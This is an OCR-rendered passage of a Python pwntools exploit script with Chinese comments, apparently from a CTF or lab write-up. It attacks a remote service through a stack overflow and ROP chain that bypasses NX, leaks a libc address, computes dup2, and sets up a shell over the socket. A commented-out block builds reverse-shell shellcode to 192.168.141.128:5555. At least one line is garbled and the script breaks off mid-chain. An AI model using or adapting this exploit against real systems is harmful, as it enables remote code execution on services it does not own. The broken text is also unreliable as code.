rop解决方式，可以绕过NX：

```python
#!/usr/bin/python

from pwn import *
from LibcSearcher import LibcSearcher

context.arch = 'amd64'
#context.log_level = 'debug'
context.os = 'linux'

rp = remote("172.17.0.2", 15001)

overflow_distance = 103     # 实际溢出长度为103
pop_rdi_ret = 0x41c83d
pop_rsi_ret = 0x4282b0
pop_rdx_ret = 0x4426c2
ret = 0x421A4F
jmp_rsp = 0x40900d
execv_plt = 0x407DA0
write_plt = 0x407850
got_snprintf = 0x46A4B0
main_loop = 0x422534

# 反弹shell到远程5555端口
'''
shellcode = asm(shellcraft.connect("192.168.141.128", 5555) + shellcraft.dupsh())
payload = b'/bin/sh\x00' + b'1' * (overflow_distance - 8) + \
            p64(jmp_rsp) + shellcode 
'''

# rop解决方式
payload = b'/bin/sh\x00' + b'1' * (overflow_distance - 8) + \
            p64(pop_rdi_ret) + \
            p64(10) + \             # socket句柄的fd=10
            p64(pop_rsi_ret) + \
            p64(got_snprintf) + \
            p64(pop_rdx_ret) + \
            p64(8) + \
            p64(write_plt) + \      # write(10, got_snprintf, 8) 泄露snprintf函数地址
            p64(ret) + \            # 让rsp 16字节对齐, 否则有些地方会段错误 ?????
            p64(main_loop)          # 返回到main_loop函数继续监听

packet = b'3' + str(len(payload) + 1).encode() + b'1' + payload
rp.sendline(packet)

snprintf_addr = u64(rp.recv(8).ljust(8, b'\x00'))  # 解析snprintf函数地址
print("snprintf addr: " + hex(snprintf_addr))

libc = LibcSearcher('snprintf', snprintf_ad
libc_base = snprintf_addr - libc.dump('snprintf')
print("libc base: " + hex(libc_base))              # 计算libc基地址

dup2_addr = libc_base + libc.dump('dup2')
print("dup2 addr: " + hex(dup2_addr))              # 计算dup2函数地址

payload = b'/bin/sh\x00' + b'1' * (overflow_distance - 8) + \
            p64(pop_rdi_ret) + \
            p64(10) + \
            p64(pop_rsi_ret) + \
            p64(0) + \
            p64(dup2_addr) + \       # dup2(10, 0), socket句柄重定向到stdin
            p64(pop_rdi_ret) + \
```
